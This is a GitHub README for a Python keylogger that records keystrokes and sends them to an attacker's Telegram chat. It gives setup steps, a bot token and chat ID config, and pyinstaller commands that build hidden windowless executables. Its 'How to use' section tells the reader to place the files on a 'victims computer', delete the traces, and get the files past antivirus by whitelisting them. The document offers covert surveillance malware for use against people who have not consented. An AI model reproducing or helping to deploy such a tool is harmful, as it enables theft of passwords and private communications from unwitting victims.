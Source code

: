 # Keylogger
#### Take log of keys inputs and send to telegram 😉

## Quick Start 🔎
### Clone this repository
```sh
git clone https://github.com/rugvedkoshiya/Keylogger.git
```
```sh
cd Keylogger
```

### Edit [config.py](./config.py) file before use
`TOKEN` - Get API token from [@BotFather](https://telegram.dog/BotFather)
`CHAT_ID` - where you want to upload logs in telegram. (forward any message from your channel or group to [@userinfobot](https://telegram.dog/userinfobot) for getting Chat ID)

### Create Virtual Environment
- #### Windows
```sh
python -m venv myenv
```
- #### macOS and Linux
```sh
python3 -m venv myenv
```

### Activate Virtual Environment
- #### Windows
```sh
.\myenv\Scripts\activate
```
- #### macOS and Linux
```sh
source myenv/bin/activate
```

### Install [requirements.txt](./requirements.txt)
- #### Windows
```sh
pip install -r requirements.txt
```
- #### macOS and Linux
```sh
pip3 install -r requirements.txt
```

### Create Executable File
- #### Windows & macOS
```sh
pyinstaller --onefile "tele_first.py"
pyinstaller --onefile -w "tele_logs.py"
pyinstaller --onefile -w "tele_upload.py"
```
> created .exe file will be in dist directory for windows

### How to use
- Copy paste this three files into victims computer
- First run tele_first and enter information which it was asking
- Done, now delete those files from where you pasted.
- If antivirus blocks this files then add those files into whitelist
- All set you got victims key's log into your telegram chat